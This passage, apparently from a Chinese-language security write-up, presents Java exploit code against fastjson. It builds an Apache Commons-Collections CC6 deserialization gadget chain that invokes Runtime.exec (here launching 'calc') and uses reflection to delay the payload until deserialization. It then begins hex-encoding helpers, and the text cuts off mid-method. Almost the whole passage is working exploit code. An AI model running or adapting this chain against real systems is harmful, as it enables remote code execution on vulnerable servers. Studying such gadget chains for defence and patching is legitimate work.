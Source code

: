 EXP 如下

JAVA

```
package hexBase;  
  
import com.alibaba.fastjson.JSON;  
import org.apache.commons.collections.Transformer;  
import org.apache.commons.collections.functors.ChainedTransformer;  
import org.apache.commons.collections.functors.ConstantTransformer;  
import org.apache.commons.collections.functors.InvokerTransformer;  
import org.apache.commons.collections.keyvalue.TiedMapEntry;  
import org.apache.commons.collections.map.LazyMap;  
  
import java.beans.PropertyVetoException;  
import java.io.ByteArrayOutputStream;  
import java.io.IOException;  
import java.io.ObjectOutputStream;  
import java.io.StringWriter;  
import java.lang.reflect.Field;  
import java.util.HashMap;  
import java.util.Map;  
  
public class HexBaseFastjsonEXP {  
  
    //CC6的利用链  
 public static Map CC6() throws NoSuchFieldException, IllegalAccessException {  
        //使用InvokeTransformer包装一下  
 Transformer[] transformers = new Transformer[]{  
                new ConstantTransformer(Runtime.class),  
                new InvokerTransformer("getMethod", new Class[]{String.class, Class[].class}, new Object[]{"getRuntime", null}),  
                new InvokerTransformer("invoke", new Class[]{Object.class, Object[].class}, new Object[]{null, null}),  
                new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"calc"})  
        };  
        ChainedTransformer chainedTransformer = new ChainedTransformer(transformers);  
        HashMap<Object, Object> hashMap = new HashMap<>();  
        Map lazyMap = LazyMap.decorate(hashMap, new ConstantTransformer("five")); // 防止在反序列化前弹计算器  
 TiedMapEntry tiedMapEntry = new TiedMapEntry(lazyMap, "key");  
        HashMap<Object, Object> expMap = new HashMap<>();  
        expMap.put(tiedMapEntry, "value");  
        lazyMap.remove("key");  
  
        // 在 put 之后通过反射修改值  
 Class<LazyMap> lazyMapClass = LazyMap.class;  
        Field factoryField = lazyMapClass.getDeclaredField("factory");  
        factoryField.setAccessible(true);  
        factoryField.set(lazyMap, chainedTransformer);  
  
        return expMap;  
    }  
  
  
    static void addHexAscii(byte b, StringWriter sw)  
    {  
        int ub = b & 0xff;  
        int h1 = ub / 16;  
        int h2 = ub % 16;  
        sw.write(toHexDigit(h1));  
        sw.write(toHexDigit(h2));  
    }  
  
    private static char toHexDigit(int h)  
```